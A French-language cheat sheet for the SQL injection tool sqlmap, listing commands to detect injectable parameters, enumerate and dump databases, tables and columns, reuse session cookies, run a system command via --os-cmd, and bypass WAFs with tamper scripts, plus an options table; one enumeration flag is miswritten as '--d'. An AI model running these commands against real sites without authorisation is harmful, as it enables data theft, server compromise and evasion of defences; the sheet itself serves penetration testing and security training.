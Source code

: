 # SQLMap Cheat Sheet 

##  Commandes les plus utiles

➡️ Test simple d'injection sur une URL
```
sqlmap -u "http://site.com/page.php?id=1"
```
`
➡️ Détection + dump automatique de la BDD
```
sqlmap -u "http://site.com/page.php?id=1" --batch --dump
```
`
➡️ Spécifier un paramètre vulnérable
```
sqlmap -u "http://site.com/page.php" --data="id=1" --batch
```
`
➡️ Enumérer toutes les BDD
```
sqlmap -u "http://site.com/page.php?id=1" --d
```

➡️ Choisir une BDD spécifique et lister ses tables
```
sqlmap -u "http://site.com/page.php?id=1" -D nom_bdd --tables
```
`
➡️ Lister les colonnes d'une table spécifique
```
sqlmap -u "http://site.com/page.php?id=1" -D nom_bdd -T nom_table --columns
```

➡️ Dumper les données d'une table spécifique
```
sqlmap -u "http://site.com/page.php?id=1" -D nom_bdd -T nom_table --dump
```
`
➡️ Scan avec cookie de session
```
sqlmap -u "http://site.com/page.php?id=1" --cookie="PHPSESSID=abc123"
```
`
➡️ Utilisation d’un fichier POST complet
```
sqlmap -r requete.txt
```

➡️ Détection du SGBD
```
sqlmap -u "http://site.com/page.php?id=1" --dbms=mysql
```
`
➡️ Tentative d'exécution de commande système (si vulnérable)
```
sqlmap -u "http://site.com/page.php?id=1" --os-cmd="whoami"`
```

➡️ Bypass WAF avec random case + encodage
```
sqlmap -u "http://site.com/page.php?id=1" --tamper=between,randomcase,charencode
```
`

---

## 🧩 Options utiles (tableau)

|Option|Description courte|
|---|---|
|`-u`|URL cible|
|`--data`|Paramètres POST à injecter|
|`-r`|Requête brute (fichier texte avec headers)|
|`--dbs`|Enumérer les bases de données|
|`-D`|Sélectionner une base de données|
|`--tables`|Lister les tables|
|`-T`|Sélectionner une table|
|`--columns`|Lister les colonnes|
|`--dump`|Extraire les données|
|`--batch`|Mode non interactif (valide tout par défaut)|
|`--level=1-5`|Profondeur du scan (1 par défaut, 5 = complet)|
|`--risk=1-3`|Risque des requêtes (1 = safe, 3 = agressif)|
|`--os-cmd`|Exécuter commande système (si injectable)|
|`--cookie`|Inclure cookie pour session|
|`--tamper=<scripts>`|Bypass WAF/IDS (ex: `between`, `charencode`, etc.)|
|`--technique=BEUSTQ`|Forcer type d’injection (Boolean, Error, Union...)|
|`--dbms=<type>`|Forcer un type de SGBD (MySQL, MSSQL, etc.)|

